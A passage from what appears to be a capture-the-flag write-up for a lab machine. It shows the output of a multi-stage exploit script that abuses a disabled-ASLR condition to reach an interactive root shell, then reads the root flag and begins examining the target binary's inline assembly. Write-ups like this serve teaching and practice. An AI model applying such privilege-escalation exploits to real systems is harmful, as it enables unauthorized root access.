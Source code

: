
This script returns a root shell:



    root@kali# python3 rootpwn.py 
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 11358
    [*] Writing Stage 1 exploit to /tmp/nflklqsofz
    [+] Found secret: 0x10d0f1b
    [*] Writing Stage 2 exploit to /tmp/nflklqsofz
    [+] Address of next buffer: 0x3221224432
    [+] Stack address space: 0x3220041728 - 0x3221225472
    [*] Writing Stage 3 exploit to /tmp/nflklqsofz
    [*] Cleaning up /tmp/nflklqsofz
    [*] Switching to interactive mode
    # id
    uid=0(root) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)



And I can read `root.txt`:



    # cat /root/root.txt
    9be653e0************************



## Beyond Root

### Assembly

At the start of `main`, there's a short section of assembly:



    int main(int argc, char * argv[]) {
    asm(
    "push $0x00000001\n"
    "push $0x0003add6\n"
    "push $0xb7e1a000\n"
    "call 0x37efcd50\n"
    "add $0x0c,%esp\n"

    "push $0x00000005\n"
    "push $0x0003a000\n"
    "push $0xb7e1a000\n"
    "call 0x37efcd50\n"
    "add $0x0c,%esp\n"
    );
